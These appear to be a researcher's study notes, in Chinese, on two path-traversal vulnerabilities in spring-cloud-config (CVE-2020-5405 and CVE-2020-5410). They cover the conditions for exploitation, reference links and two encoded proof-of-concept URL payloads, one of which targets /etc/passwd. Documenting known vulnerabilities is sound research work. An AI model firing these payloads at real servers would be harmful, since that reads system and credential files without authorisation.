


## CVE-2020-5405 spring-cloud-config路径穿越导致的信息泄露

- 1、/etc/hosts无法读取；/etc/hosts.allow可以读取；/etc/ca-certificates.conf还可通过拼接读取。
- 2、路径穿越可以被利用的条件是：
在配置文件application.properties/application.yml中配置spring.profiles.active的值为本地文件系统native（一般是git的url?）；
- 3、没有后缀的文件（比如/etc/passwd）无法读取，因为有一个获取文件后缀名的逻辑，即便已经读到了文件内容但是由于没有后缀名出现异常然后响应500。

### Demo


## CVE-2020-5410 spring-cloud-config路径穿越导致的信息泄露


### Ref
- https://github.com/osamahamad/CVE-2020-5410-POC
- https://github.com/threedr3am/learnjavabug/blob/a13aad49c93c05e6fb9db7668a9de6b0b1106307/spring/spring-cloud-config-server-CVE-2020-5410/src/main/java/com/threedr3am/bug/spring/config/server/package-info.java
- https://xz.aliyun.com/t/7877

### PoC
```
/222.txt%23/cqq/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29
```
这种poc好像只能穿越到上一层目录，


```
/..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23111/222
```
后面这个poc能穿越到/


